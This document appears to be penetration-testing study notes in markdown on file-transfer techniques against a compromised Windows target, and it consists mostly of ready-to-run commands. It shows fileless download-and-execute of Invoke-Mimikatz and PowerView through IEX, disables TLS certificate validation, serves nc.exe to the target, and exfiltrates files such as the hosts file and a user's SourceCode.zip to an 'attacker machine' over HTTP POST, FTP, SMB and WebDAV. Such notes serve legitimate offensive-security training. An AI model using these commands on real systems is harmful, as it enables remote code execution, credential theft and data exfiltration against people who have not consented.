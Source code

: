 # File Transfers

1. [Windows File Transfer Methods](#windows-file-transfer-methods)

## Windows File Transfer Methods

* Download operations: (download to Windows)

  * PowerShell base64 encode & decode:

    * We can encode a file to a base64 string, copy its contents from terminal & perform the reverse operation.

    * To ensure the file is correct, we can use ```md5sum``` to verify the checksum.

    ```shell
    md5sum id_rsa
    # md5 hash of sample ssh key
    # we want to transfer sample ssh key to target Windows machine

    cat id_rsa | base64 -w 0; echo
    # copy this content and paste into PowerShell terminal
    ```

    ```ps
    [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<base64-encoded string>"))
    # decodes and writes to file

    Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
    # confirm hashes match
    ```

  * PowerShell web downloads:

    * In any version of PowerShell, the ```System.Net.WebClient``` class can be used to download a file over HTTP, HTTPS or FTP - there are [multiple WebClient methods](https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-6.0).

    ```ps
    (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

    # DownloadFileAsync can be used alternatively
    (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')
    ```

    ```ps
    # fileless method
    # using inbuilt function to download payload and execute it

    IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
    # instead of downloading script to disk
    # runs it directly in memory using Invoke-Expression or IEX
    # IEX also accepts pipeline input
    ```

    ```ps
    # Invoke-WebRequest cmdlet can be used
    # aliases - iwr, curl, wget

    Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

    # can be piped with IEX for fileless
    Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 | IEX

    # if we get an Internet Explorer error, IWR should have -UseBasicParsing flag

    # for SSL/TLS errors, run this command
    # [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
    ```

  * SMB downloads:

    ```shell
    # on attacker machine
    # host SMB server
    sudo impacket-smbserver share -smb2support /tmp/smbshare

    # sometimes, unauthenticated guest access is blocked on Windows
    # so we need to use creds
    sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
    ```

    ```cmd
    # in target Windows machine
    # to copy file from SMB server
    copy \\192.168.220.133\share\nc.exe

    # if we are using creds, mount SMB server & copy
    net use n: \\192.168.220.133\share /user:test test
    copy n:\nc.exe
    ```

  * FTP downloads:

    ```shell
    # on attacker machine
    sudo pip3 install pyftpdlib

    # setup python3 ftp server
    sudo python3 -m pyftpdlib --port 21
    ```

    ```ps
    # on target machine
    (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
    ```

    ```cmd
    # if we do not have an interactive shell
    # we can create an FTP command file to download a file

    echo open 192.168.49.128 > ftpcommand.txt
    echo USER anonymous >> ftpcommand.txt
    echo binary >> ftpcommand.txt
    echo GET file.txt >> ftpcommand.txt
    echo bye >> ftpcommand.txt
    ftp -v -n -s:ftpcommand.txt
    # this downloads the file
    ```

* Upload operations: (upload from Windows)

  * PowerShell base64 encode & decode:

    ```ps
    [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
    # encode file to base64

    Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
    # get md5 hash
    ```

    ```shell
    # in attacker machine
    echo <base64 string> | base64 -d > hosts
    # decode base64 string and store in file

    md5sum hosts
    # hash should match
    ```
  
  * PowerShell web uploads:

    ```shell
    pip3 install uploadserver

    python3 -m uploadserver
    # webserver that hosts a file upload page
    ```

    ```ps
    # we can make use of PSUpload.ps1 script
    # use IWR for upload
    IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

    Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
    # uploads file
    ```

  * PowerShell base64 web upload:

    ```ps
    $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
    # base64-encoding of file
    
    Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
    # send it on attacker machine port
    ```

    ```shell
    nc -lvnp 8000
    # catch the base64 data

    echo <base64 string> | base64 -d -w 0 > hosts
    ```

  * SMB uploads:

    ```shell
    # enterprises usually do not allow SMB protocol out of internal network
    # so we would need to use SMB over HTTP with WebDAV

    # setup WebDAV in attacker machine
    sudo pip install wsgidav cheroot

    sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
    ```

    ```cmd
    # connect to webDAV share
    dir \\192.168.49.128\DavWWWRoot
    # this folder does not actually exist on the attacker machine
    # it is a keyword recognized by Windows Shell to connect to root of webDAV server
    # we can alternatively mention an existing folder

    copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
    copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
    # upload files
    ```

  * FTP uploads:

    ```shell
    sudo python3 -m pyftpdlib --port 21 --write
    # start ftp server with --write
    # to allow clients to upload files
    ```

    ```ps
    (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
    # upload file
    ```

    ```cmd
    # we can also create a command file for client
    echo open 192.168.49.128 > ftpcommand.txt
    echo USER anonymous >> ftpcommand.txt
    echo binary >> ftpcommand.txt
    echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
    echo bye >> ftpcommand.txt
    ftp -v -n -s:ftpcommand.txt
    ```
